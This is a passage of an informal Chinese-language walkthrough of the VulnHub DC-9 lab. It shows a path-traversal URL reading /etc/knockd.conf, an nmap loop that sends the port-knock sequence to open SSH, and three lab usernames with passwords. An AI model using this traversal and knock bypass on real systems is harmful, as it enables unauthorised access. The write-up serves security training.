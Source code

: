 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/12.png)

什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/13.png)

开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/14.png)

试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---